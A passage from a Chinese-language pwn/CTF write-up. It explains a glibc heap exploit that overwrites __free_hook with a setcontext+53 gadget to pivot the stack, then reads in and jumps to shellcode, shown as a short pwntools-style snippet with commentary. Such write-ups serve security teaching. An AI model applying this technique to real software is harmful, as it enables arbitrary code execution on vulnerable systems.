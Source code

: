 ```
shellcode_addr=free_hook &0xFFFFFFFFFFFFF000
shellcode_read="""
mov rdi,0
mov rsi,{}
mov rdx,0x1000
mov rax,0
syscall
jmp rsi
""".format(shellcode_addr)

add(0x500,padding)
add(0x500,padding)
edit(2,p64(set_context_53)+p64(free_hook+0x18)*2+asm(shellcode_read)) 
```

注意写入free_hook的是setcontext+53,后面两个free_hook+0x18都是指向shellcode_read的指针，是为了ret过后能够执行到写的shellcode
这里需要对setcontext+0x53做一点解释,这位师傅写的很详细了
[https://blog.csdn.net/A951860555/article/details/118268484](https://blog.csdn.net/A951860555/article/details/118268484)

我在这里也解释一下，就是在0x35这里有一句这个话
![在这里插入图片描述](img/f6f8dd76ed0e3fe812370493cef84775.png)注意到rsp,rcx均可控，并且有一个push rcx的操作，后面又ret了，表示我们可以修改执行流。
这里需要布置好被free掉的块的栈布局
